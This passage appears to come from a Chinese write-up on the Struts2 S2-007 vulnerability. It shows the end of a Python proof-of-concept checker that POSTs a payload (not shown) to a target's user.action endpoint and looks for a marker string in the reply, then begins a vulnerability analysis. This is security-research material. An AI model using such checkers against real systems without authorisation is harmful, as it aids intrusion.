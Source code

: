 ```python

        :return str True or False
        """

        try:
            if not self.url.startswith("http") and not self.url.startswith("https"):
                self.url = "http://" + self.url
            if '.action' not in self.url:
                self.url = self.url + '/user.action'
            check_req = requests.post(self.url, data = self.check_payload)
            if self.capta in check_req.text and check_req.status_code == 200:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_007 = S2_007_BaseVerify('http://127.0.0.1:8080')
    S2_007.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](images/流程图.png)
